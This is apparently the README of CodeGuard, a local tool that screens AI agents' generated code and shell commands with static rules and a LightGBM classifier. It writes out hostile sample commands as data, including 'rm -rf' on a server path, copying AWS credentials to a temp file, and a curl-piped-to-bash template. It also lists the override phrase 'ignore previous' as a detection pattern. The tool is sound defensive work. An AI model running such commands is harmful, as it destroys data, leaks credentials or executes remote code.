

# CodeGuard

For step-by-step installation, see [setupguide.md](setupguide.md). Currently supported AI CLI integrations: **Antigravity CLI (AGY)** and **OpenCode**. Other templates are unverified.

A local, CPU-only safety layer that evaluates generated source code and CLI commands and blocks risky ones **before** an execution wrapper runs them. The HTTP service only analyzes text: it has no execution endpoint and makes no external LLM calls.

Contents: [Quick start](#quick-start) · [API](#api) · [CLI](#cli) · [How a verdict is produced](#how-a-verdict-is-produced) · [Risk score and confidence](#risk-score-and-confidence-score) · [The ML model](#the-ml-model) · [Training](#training) · [Datasets](#datasets) · [Evaluation results](#evaluation-results-read-this) · [Dashboard](#dashboard) · [Resources used](#resources-and-open-source-components) · [Limitations](#assumptions-and-limitations)

---

## Quick start

Python 3.12+ is required for the pinned environment (verified on Python 3.14, Windows). From the `codeguard` directory:

```powershell
python -m venv .venv
.venv\Scripts\python.exe -m pip install -r requirements.lock
.venv\Scripts\python.exe scripts/check_deletion_policy.py
.venv\Scripts\python.exe -m uvicorn app:app --host 127.0.0.1 --port 8000
```

Open [the dashboard](http://127.0.0.1:8000), [API docs](http://127.0.0.1:8000/docs), or [health](http://127.0.0.1:8000/health). On Linux/macOS use `.venv/bin/python`. The trained model `models/codeguard.joblib` is committed, so no training is needed to start. `requirements.lock` records the exact verified versions. No API key is needed; setup downloads packages but inspection and training use only local CPU. For Windows, macOS, and Linux setup and Antigravity/OpenCode installation, follow the [portable integration guide](integrations/README.md).

---

## API

`POST /evaluate`, `POST /guard` and `POST /` accept exactly `{"code": "rm -rf /srv/archive"}` and return:

```json
{
  "verdict": "block",
  "risk_score": 0.926,
  "categories": ["destructive_command"],
  "code_language": "bash",
  "reason": "Recursive removal can destroy filesystem data.",
  "vulnerable_lines": [1]
}
```

The confidence score is returned in the `X-CodeGuard-Confidence` response header on these endpoints, so the six-field body contract stays unchanged. Other headers: `X-CodeGuard-Latency-Ms`, `X-CodeGuard-MITRE-IDs`.

`POST /batch_evaluate` takes `{"snippets":[{"code":"..."}, ...]}` (max 100) and returns an ordered list of verdicts. `POST /evaluate_json` (raw JSON: one record, a list, or `{"snippets":[...]}`) and `POST /evaluate_file` (`.json`, `.jsonl`, `.csv`, `.gz`; max 20 MiB, 10,000 records; `?stream=true` for NDJSON progress) return a full report. Each record is `{"code": "...", "id": optional, "path": optional, "label": optional 0/1}`; labels are used only to compute metrics, never to choose a verdict. Each result includes `status`, `risk_score`, `confidence_score`, `confidence_basis`, `category`, `reason`, `language`, `code`, `latency_ms`, `vulnerable_lines`, per-line `findings` (each with its own `model_score`), and MITRE ATT&CK/CWE references.

Limits: 65,536 characters and 5,000 lines per snippet. Blank or invalid input gets HTTP 422, never an allow. If the classifier fails, the service returns 503 and execution must stay blocked (fail-closed).

---

## CLI

Everything below uses the same detector, so the CLI returns the same `risk_score` **and** `confidence_score` as the API. `codeguard` (installed script in `.venv/Scripts`) is equivalent to `python -m guard`.

| Command | What it does | Exit code |
| --- | --- | --- |
| `python -m guard evaluate` | Reads `{"code": "..."}` from stdin (or `--file path`), prints the verdict JSON, never executes | 0 allow, 2 block or error |
| `python -m guard hook` | Same, but also accepts a tool event like `{"tool_name":"Bash","tool_input":{"command":"..."}}` | 0 allow, 2 block or malformed |
| `python -m guard run --report -- <exe> <args>` | Evaluates the command, runs it with `shell=False` only if allowed, prints verdict + latency to stderr | child's code, or 2 if blocked |
| `python -m guard shell` | Interactive guarded terminal; every external command is checked before process creation | n/a |
| `python -m guard agent-hook --client <name>` | Native hook adapter for AI CLIs (Claude Code, Codex, Cursor, Gemini CLI, opencode, etc.), fails closed | host-specific |

Example (verified):

```powershell
'{"code":"rm -rf /srv/archive"}' | .venv\Scripts\python.exe -m guard evaluate
# {"verdict":"block","risk_score":0.926,"confidence_score":0.6781,"categories":["destructive_command",...],...}   exit 2

.venv\Scripts\python.exe -m guard run --report -- python -c "print('hi')"      # runs, exit 0
.venv\Scripts\python.exe -m guard run --report -- rm -rf /srv/archive          # blocked, exit 2, rm never starts
```

Notes:
- **Cold start.** Each separate CLI process must import scikit-learn/LightGBM and load the model (roughly 3 s the first time). For low latency, use the long-running `guard shell` or the HTTP service (`agent-hook` calls it), which load the model once and then take milliseconds per command.
- `--audit-log <file>` (on `run`, `shell`, `agent-hook`) appends one JSON record per decision (timestamp, verdict, risk, categories, latency). Native agent hooks also record the inspected command, which can contain sensitive arguments; keep logs private. See [docs/cli-hardening.md](docs/cli-hardening.md) for the interpreter policy and remaining coverage gaps, and [integrations/README.md](integrations/README.md) for per-client activation.
- Inline Python/Node/shell interpreter arguments (`python -c`, `node -e`, `bash -c`) and wrappers (`sudo`, `env`, `nohup`) are inspected recursively; interpreter calls without inspectable inline source are refused.
- Only commands routed through CodeGuard are guarded; it does not globally intercept other terminals.
- **Windows hook configuration:** Run `install_integrations.py` to generate the launcher for this computer. It uses an encoded PowerShell invocation to preserve Python paths containing spaces when launched through `cmd.exe`. Verify it with `.venv\Scripts\python.exe scripts/check_hook.py`.
- Python integration: `SafeExecutor.run(code)` / `SafeExecutor.run_command(argv)` and the `@codeguard_protect` decorator raise `CodeGuardBlockedError` before anything runs.

---

## How a verdict is produced



Two layers, plus a fail-closed wrapper:

1. **Static rules (high precision, deterministic).** Python is parsed with `ast` (with simple alias/constant resolution, so `_e = exec; _e(x)` is understood). SQL is parsed with SQLGlot (e.g. `DELETE`/`UPDATE` without `WHERE`). Shell, JavaScript, YAML and Markdown get bounded structural and regex checks (about a dozen rule modules: `python_rules.py`, `sql_rules.py`, `shell_rules.py`, `generic_rules.py`, `command_policy.py`, `patterns.py`...). Rules also catch near-miss package names (RapidFuzz edit distance), cloud-metadata/internal IP URLs, credential file paths, cron/sudoers/authorized_keys writes, curl-pipe-to-shell, prompt-injection text in comments, and so on. Each finding carries a category, a reason and a line number, and maps to a MITRE ATT&CK technique and CWE (`src/guard/mitre.py`).
2. **Local ML classifier (generalization fallback).** It reads the snippet as text and outputs one probability per category. Any category at or above **0.85** blocks the snippet even when no rule fired. It exists to catch variants the rules do not cover.
3. **Fail closed.** Missing model, invalid probabilities, oversized input, or a hook/transport error all result in block (exit 2 / HTTP 503), never allow.

Important: the model is run on **every** request, even when a static rule already decided to block, because its probabilities feed the risk and confidence scores below.

Threat categories: `secret_access`, `data_exfiltration`, `destructive_command`, `persistence_or_privesc`, `obfuscated_execution`, `dependency_risk`, `resource_exhaustion`, `ssrf_network_exfil`, `ai_targeted_instructions`.

---

## Risk score and confidence score

Both are in `[0, 1]`, are computed in `src/guard/detector.py`, and are **heuristic decision signals, not calibrated probabilities of compromise**. They intentionally differ from each other:

- **risk_score** answers "how dangerous is this?"
- **confidence_score** answers "how much independent evidence agrees with this verdict?"

Let `p(c)` be the model's probability for category `c` (see [How the model predicts](#how-the-model-predicts)).

### 1. Blocked by a static rule

```
floor      = max over flagged categories of SEVERITY_FLOOR[c]
m          = max over flagged categories of p(c)          # model score for those categories
risk       = floor + (1 - floor) * m
confidence = min(0.99, 0.55 + 0.30 * m + 0.05 * min(n_findings, 3))
```

`n_findings` is the number of distinct (category, line) findings. Severity floors:

| Category | Floor | Category | Floor |
| --- | --- | --- | --- |
| destructive_command | 0.90 | ssrf_network_exfil | 0.80 |
| data_exfiltration | 0.90 | ai_targeted_instructions | 0.75 |
| persistence_or_privesc | 0.90 | dependency_risk | 0.70 |
| secret_access | 0.85 | resource_exhaustion | 0.65 |
| obfuscated_execution | 0.85 | | |

Worked example, `rm -rf /srv/archive`: one `destructive_command` finding, floor 0.90, model score `m = 0.26`:

```
risk       = 0.90 + 0.10 * 0.26             = 0.926
confidence = 0.55 + 0.30 * 0.26 + 0.05 * 1  = 0.678
```

So a static block never reports a low risk just because the model was unsure, and risk and confidence move independently: risk is driven by rule severity, confidence by agreement and breadth of evidence.

### 2. Blocked by the model only (no static finding)

```
s          = max probability among categories >= 0.85
risk       = s
confidence = 0.5 + 0.45 * (s - 0.85) / 0.15       # 0.50 at the threshold, 0.95 at s = 1.0
```

### 3. Allowed

```
risk       = max over all categories of p(c)       # not clipped; typically near 0
confidence = 1 - risk
```

An allow is never a proof of safety; the response `reason` says so.

### 4. Model disabled or unavailable

Both are `null` (never invented), and the `confidence_basis` is `model_disabled_score_unavailable`. If the model fails during a normal request, the request fails closed instead.

`confidence_basis` in file reports names which formula produced the number: `heuristic_static_rule_severity_and_model_agreement`, `heuristic_model_margin_above_block_threshold`, or `heuristic_inverse_of_max_model_score`.

---

## The ML model

### Why classical ML, not a small language model

CodeGuard sits on the hot path of every command an AI agent runs, so it has to be fast, offline and small. A quantized code transformer costs tens of ms per call, needs `torch` or `onnxruntime`, and must download weights. The chosen model is a gradient-boosted tree ensemble: a single ~1 MB `joblib` file (`models/codeguard.joblib`), no GPU, no network, deterministic, and inspectable. Semantic understanding of known attacks is handled by the static rules; the model's job is to generalize to wording and structure the rules miss.

### Classification setup

It is a **multi-label** problem (one snippet can belong to several categories, or none). For each of the 9 categories one independent binary `LGBMClassifier` answers "is this snippet in category X?". They are wrapped in scikit-learn's `MultiOutputClassifier`. "Benign" is simply the all-zeros label vector, not a tenth class.

### Features (10,024 dimensions, three branches)

The whole thing is one scikit-learn `Pipeline`: `FeatureUnion([word TF-IDF, char TF-IDF, structural]) -> MultiOutputClassifier(LGBM)`.

1. **Word TF-IDF, 4,000 dims.** Unigrams and bigrams with token pattern `\b\w[\w./:-]+\b`, so `shutil.rmtree`, `-rf` and `os.system` stay as single tokens. Sublinear TF: `(1 + ln(count)) * idf`, then L2-normalized. `max_features=4000`.
2. **Character TF-IDF, 6,000 dims.** Character n-grams of length 3-5, same weighting. This is robust to misspellings and obfuscation (`exec(` becomes `exe`, `xec`, `ec(`, `exec`, `exec(`). `max_features=6000`.
3. **Structural scalars, 24 dims** (`src/guard/structural_features.py`). Hand-crafted signals that let trees model interactions that n-grams cannot (for example base64 *and* exec *and* high entropy together):

| # | Feature | # | Feature |
| --- | --- | --- | --- |
| 0 | characters / 65536 | 12 | redirect (`>`, `>>`) count |
| 1 | lines / 5000 | 13 | semicolon count |
| 2 | import statements | 14 | network-sink tokens (`requests.post`, `curl`, `rsync`...) |
| 3 | function definitions | 15 | file-read tokens (`open(`, `cat`, `/etc/`...) |
| 4 | Shannon entropy of string literals | 16 | base64-decode adjacent to exec/eval (0/1) |
| 5 | base64-like blob count (>= 20 chars) | 17 | persistence tokens (`crontab`, `sudoers`...) |
| 6 | URL count | 18 | obfuscation tokens (`pickle`, `marshal`, `chr(`...) |
| 7 | contains IPv4 address (0/1) | 19 | prompt-injection tokens (`ignore previous`...) |
| 8 | dangerous-builtin tokens (`exec`, `rm -rf`...) | 20 | SQL-mutation tokens (`DROP TABLE`...) |
| 9 | credential tokens / 10 | 21 | curl/wget piped into a shell (0/1) |
| 10 | uppercase-letter ratio | 22 | unguarded DELETE/UPDATE/TRUNCATE (0/1) |
| 11 | pipe `\|` count | 23 | (pipes + redirects + semicolons) / lines |

### LightGBM hyperparameters

| Parameter | Value | Why |
| --- | --- | --- |
| `n_estimators` | 300 | enough trees for rare categories |
| `learning_rate` | 0.06 | small steps to limit overfitting |
| `max_depth` / `num_leaves` | 5 / 24 | shallow trees, low variance |
| `min_child_samples` | 3 | allows splits on small classes |
| `subsample` (every iteration) | 0.85 | row bagging |
| `colsample_bytree` | 0.75 | feature bagging |
| `reg_alpha` / `reg_lambda` | 0.2 / 0.2 | L1 + L2 regularization |
| `random_state`, `n_jobs` | 42, 1 | reproducible, single-threaded |

### How the model predicts

At runtime (`src/guard/ml_model.py`) the model is loaded once (`lru_cache`) and warmed at server startup. For each snippet:

1. `transform_one(code)` builds the 10,024-dim sparse vector directly with NumPy/SciPy, reusing the fitted vocabularies and IDF weights (this is a faster re-implementation of `pipeline.transform`; a test checks it matches the pipeline to 1e-10).
2. Each of the 9 LightGBM boosters runs `booster_.predict(...)`, which returns `sigmoid(sum of leaf outputs)`, a number in `[0, 1]`. The result is a dict such as `{"destructive_command": 0.26, "obfuscated_execution": 0.93, ...}`.
3. Probabilities outside `[0, 1]` are treated as a model failure (fail closed).

The probabilities are raw gradient-boosting outputs. They have **not** been recalibrated (no Platt/isotonic step), which is why the README calls the derived scores heuristic.

---

## Training

Training script: `train_model.py` (run `.venv\Scripts\python.exe train_model.py`; CPU only; seed 42). Data is entirely local; no pretrained weights, no external model or API.

1. **Synthetic templates.** About 100 hand-written threat templates across the 9 categories (e.g. `cat ~/.aws/credentials > /tmp/out_{i}`, `curl -s https://host{i}.example/i.sh | bash`, `UPDATE payroll_{i} SET salary = 0;`) and about 55 benign templates that deliberately resemble threats (`rm -rf ./node_modules`, `DELETE FROM sessions WHERE ...`, `pip install requests==...`, comments saying "ignore whitespace"). Each template is instantiated 8 times with different numbers (`{i}` placeholders).
2. **Hold-out split by template family.** Every 5th template is held out for validation before augmentation, so validation snippets are not near-copies of training ones.
3. **Corrections.** Benign snippets that earlier versions wrongly blocked (documentation strings, base64 decoding of plain text, fake test credentials, benign SQL) plus the benign records from the development data files are added as negatives (87 unique corrections).
4. **Context augmentation.** Parseable Python snippets are also emitted with 8, 32 and 96 harmless helper functions before and after the payload, so the model learns that long surrounding code does not dilute a threat.
5. **Fit.** Labels are binarized with `MultiLabelBinarizer`; the full pipeline (TF-IDF vocabularies, IDF weights, 9 boosters) is fitted in one `pipeline.fit` call.
6. **Evaluate and save.** Validation is scored at the 0.85 threshold, the pipeline is saved with `joblib` (compressed), and metadata (hyperparameters, validation report, timings, provenance) is written to `models/codeguard.json`.

Current model: 3,626 training examples after augmentation (976 unique synthetic base examples, 226 validation), 9 categories, 10,024 features, 1.08 MB.

Retrain whenever `structural_features.py`, `train_model.py` or the training data change, or the scikit-learn/LightGBM version changes. Never load a `joblib` file from an untrusted source.

`python train_model.py --benchmark` evaluates the 10,000-program stress dataset (`data/large-code-test.jsonl.gz`) without executing any of it and writes `reports/large-code-evaluation.json`; `--benchmark-limit N` writes a smaller spot check.

---

## Datasets

| File | Contents | Role |
| --- | --- | --- |
| `data/codeguard_dev.jsonl` | 42 labeled public-style snippets (30 threats, 12 benign) | Development regression for the rules; benign ones also used as training negatives |
| `data/novel_vulns_test.json` | 178 hand-written cases in forms different from the templates | Rule development; benign ones also used as training negatives |
| `data/large-code-test.jsonl.gz` | 10,000 synthetic Python programs (5,000 threat, 5,000 benign) with labels, language and category | Stress test, development-exposed |
| built-in templates in `train_model.py` | threat and benign templates described above | Training and template-held-out validation |

All of these were visible while rules and corrections were being written, so **none is an independent estimate of real-world accuracy**. `data/blind_holdout_test.json` was referenced historically but has been removed from this working tree; training skips missing optional files.

---

## Evaluation results (read this)

All numbers are from this repository's reports (`models/codeguard.json`, `reports/`) and should be read with the caveats shown.

**Template-held-out validation of the ML model alone** (threshold 0.85, 226 held-out snippets, `models/codeguard.json`): micro precision 1.00, micro recall **0.26**. Per category, `ai_targeted_instructions` recall 1.00, `dependency_risk` 0.89, `ssrf_network_exfil` 0.50, `secret_access` 0.33, and **0.00** for `data_exfiltration`, `destructive_command`, `obfuscated_execution`, `persistence_or_privesc` and `resource_exhaustion`. In plain words: on template families it has never seen, the model rarely reaches 0.85 for most categories. It is conservative (no false positives on that split) but is **not** a reliable standalone detector; the static rules provide most of the protection.

**Cascade (rules + model) on a 180-sample spot check** of the large-code dataset (`reports/large-code-spot-check.json`): accuracy 94.4%, precision 0.90, recall 1.00, false-positive rate 11.1% (10 of 90 benign blocked). Model alone on the same sample: recall 0.44. This dataset was used to drive corrections, so it is development-exposed.

**Rules only on the 42-sample public regression:** 42/42 correct (`reports/dev-evaluation.json`). The rules were developed against these samples.

`reports/large-code-evaluation.json` is an older full 10,000-sample run (every sample blocked, 50% accuracy) from before the latest model and rule fixes; re-run `python train_model.py --benchmark` to refresh it. It is kept only as history.

**Latency.** Detection is about 5-10 ms per snippet once the model is loaded (the static rules about 6 ms, model feature extraction plus 9 boosters about 8 ms in profiling). Process cold start (model load) is about 3 s. The 10,000-sample stress dataset contains very large programs, hence its higher percentile latencies in the reports.

The organizer's private evaluation is the authority for any official score.

---

## Dashboard

`GET /` serves a single-page UI (`demo/dashboard.html`, vanilla JS, no build step). Paste a snippet and inspect it, or upload a dataset. Uploads stream results (NDJSON) so rows appear while the file is still being processed; the table shows the code, verdict, risk score, confidence, categories, flagged lines and latency, with per-row evidence, search, filter, pagination and JSON export. Identical snippets inside one upload are inspected once.

---

## MITRE ATT&CK and CWE metadata

`/evaluate_json` and `/evaluate_file` return `mitre_techniques` per record, a `mitre` reference per finding, and a `mitre_summary`. The category-to-technique table is `MITRE_MAPPING` in `src/guard/mitre.py`. Each category has one primary technique, so it is a triage label, not a full ATT&CK classification.

---

## Resources and open-source components

| Component | License | Use |
| --- | --- | --- |
| [FastAPI](https://github.com/fastapi/fastapi), [Pydantic](https://github.com/pydantic/pydantic), [Uvicorn](https://github.com/encode/uvicorn) | MIT / MIT / BSD-3 | HTTP service and validation |
| [SQLGlot](https://github.com/tobymao/sqlglot) | MIT | SQL syntax trees |
| [RapidFuzz](https://github.com/rapidfuzz/RapidFuzz) | MIT | Package-name edit distance |
| [scikit-learn](https://github.com/scikit-learn/scikit-learn) | BSD-3 | TF-IDF, Pipeline, MultiOutputClassifier, metrics |
| [LightGBM](https://github.com/microsoft/LightGBM) | MIT | Gradient-boosted trees |
| [NumPy](https://github.com/numpy/numpy) / SciPy | BSD-3 | Feature arithmetic, sparse vectors |
| [joblib](https://github.com/joblib/joblib) | BSD-3 | Model serialization |
| [pytest](https://github.com/pytest-dev/pytest), [HTTPX](https://github.com/encode/httpx) | MIT / BSD-3 | Tests |
| Python standard library | PSF-2.0 | `ast`, tokenization, `subprocess` boundary |

Design references (no code copied): [Bandit](https://github.com/PyCQA/bandit), [detect-secrets](https://github.com/Yelp/detect-secrets), [CC Safety Net](https://github.com/kenryu42/cc-safety-net). Everything runs on a normal CPU; no GPU, no hosted model, no external dataset downloads. AI assistance was used to write and test the code; no model API is called by the resulting system.

---

## Assumptions and limitations

This is a prototype policy gate, not a sandbox or complete malware detector. Allowed code runs with the executor's privileges. The wrapper protects calls routed through it; external executables, imported modules, mutable files and subprocess behavior are not recursively audited. Use an OS sandbox for untrusted execution.

Python gets the deepest analysis; shell, JavaScript, YAML and Markdown use bounded structural/textual checks. Alias resolution is simple and not scope-sensitive. Exfiltration rules correlate sources and sinks without full taint analysis, so unrelated reads and sends can trigger a block. Dynamic strings, encodings, computed paths, unusual SQL dialects, DNS resolution and redirects can evade checks. The package catalog is a curated heuristic list, not a malware feed.

The ML model was trained only on synthetic, locally authored templates and, as shown above, generalizes weakly to unseen template families. Risk and confidence scores are transparent heuristics built on uncalibrated model outputs and rule severities, intended for triage and ranking, not as probabilities of compromise. Do not expose the service beyond localhost without access controls, and do not add an HTTP execution endpoint.

---

## Files

- `app.py`, `src/guard/`: service, detector, rules, model runtime, CLI, interception boundary.
- `train_model.py`, `models/`: training script, weights, metadata. `reports/`: evaluation outputs.
- `demo/dashboard.html`: dashboard. `integrations/`: hook configs for 12 AI CLIs. `docs/cli-hardening.md`: CLI notes.
- `tests/test_regressions.py`: regression suite (`pytest -q`).
